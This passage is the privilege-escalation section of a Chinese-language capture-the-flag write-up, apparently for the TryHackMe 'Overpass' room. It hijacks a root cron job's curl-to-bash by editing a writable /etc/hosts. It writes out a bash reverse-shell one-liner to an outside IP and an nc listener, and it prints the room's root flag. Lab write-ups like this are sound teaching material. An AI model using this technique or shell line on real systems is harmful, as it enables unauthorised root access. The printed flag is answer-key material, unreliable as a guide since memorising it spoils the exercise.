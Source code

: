 ## 提權
- 之前我們都用 `Linenum`，這次來換換口味，使用小豌豆 `Linpeas` 吧!
	- 先把檔案 scp 上去
	- `scp -i James_key.pem ../linpeas.sh  james@10.10.214.180:/home/james`

- 馬上就噴出了一個很重要的 Cron job
	- 小豌豆好棒棒!!!
	- ![](https://i.imgur.com/AdxffbY.png)
	- 每分鐘會用 root 權限 `curl` 一次 `overpass.thm` 的網址，然後把值丟去bash

- 發現 `/etc/hosts` 沒有設權限
	- 所以我們可以把 `overpass.thm` 轉到自己的伺服器上
	- ![](https://i.imgur.com/IBeuwFc.png)

- 在自己的電腦上準備一個資料夾路徑
	- `downloads/src/buildscript.sh` 的檔案
	- 內容物為自己的 Reverse shell
		- `bash -c 'bash -i >& /dev/tcp/10.14.7.198/7877 0>&1'`
	- 然後在自己的電腦上開一下 `nc` 進行監聽
		- `nc -vlk 7877`
		- ![](https://i.imgur.com/Lom2bma.png)
	- 開啟 Python server
		- `python3 -m http.server`
- 攻擊戳回來了!!!
	- ![](https://i.imgur.com/0YbxxeO.png)
	- ![](https://i.imgur.com/Yow9Uze.png)
- 取得 root flag
	- ![](https://i.imgur.com/H4HLJ1V.png)
	- `thm{7f336f8c359dbac18d54fdd64ea753bb}`


